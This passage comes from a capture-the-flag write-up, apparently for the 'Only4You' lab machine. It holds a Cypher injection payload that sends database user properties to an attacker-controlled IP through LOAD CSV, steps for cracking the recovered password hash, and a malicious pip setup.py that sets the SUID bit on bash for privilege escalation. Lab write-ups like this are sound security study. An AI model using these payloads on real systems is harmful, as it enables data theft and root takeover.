 This yielded one? result -`user`.

![](/images/only4you/only16.png)

Now we need to enumerate that user database. After some research what we are looking to do is obtain the properties of the key of `user`.

```
' OR 1=1 WITH 1 as a MATCH (f:user) UNWIND keys(f) as p LOAD CSV FROM 'http://10.10.14.2:80/?' + p +'='+toString(f[p]) as l RETURN 0 as _0 //
```

The above `MATCH` will find us what we put in `(f:LABEL)` in our case, `user`.

![](/images/only4you/only17.png)

This gives us a password back.

`8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918`

This is a `SHA256` hash according to `hashes.com`. So, we give that to `john` and see what comes back. When we crack it, it seems that we get back `admin`. Great. We've essentially done nothing. After trying to dump `password` it turns out that the issue was within `nc` truncating the incoming request. Catching the incoming request via `python` worked as mostly expected.

![](/images/only4you/only18.png)

Now we can feed that password to `john` and see what comes back. We get back `ThisIs4You`. We try to use that password for `ssh` and it works!

![](/images/only4you/user.png)

Now that we're on the system, we can start to enumerate. We copy over `linpeas.sh` and `pspy`. Let them run to see what we find. We also run `sudo -l` and see we can run some `pip3` functionality.

![](/images/only4you/only19.png)

So this would lead us to believe we need to setup another `chisel` instance in order to get access back to port `3000`. So we repeat the above commands to create the tunnel back to us over `3000`. Once that's setup, we attempt to login as `john` using the password `ThisIs4You` and it works. We see there is one Test repo setup but no other public activity. But this is fine, this is all we need. We need the ability to create a malicious tar file as defined by our `sudo -l` . You can find plenty of resources [on that topic](https://embracethered.com/blog/posts/2022/python-package-manager-install-and-download-vulnerability/). Here is one that was done a while back but is [still relevant](https://0xma.github.io/hacking/escalate_privileges_via_pip.html). 

First we clone the repo down:

`git clone https://github.com/wunderwuzzi23/this_is_fine_wuzzi/`

Then we can modify the `setup.py` file to accommodate what we're looking to do. You can call a remote shell or add the `bash` `SUID`. Either way, we need to edit our script.

```python
import os
from setuptools import setup, find_packages
from setuptools.command.install import install
from setuptools.command.egg_info import egg_info


def RunCommand():
    print("Hello, p0wnd!")
    os.system('chmod +s /bin/bash')

class RunEggInfoCommand(egg_info):
    def run(self):
        RunCommand()
        egg_info.run(self)

```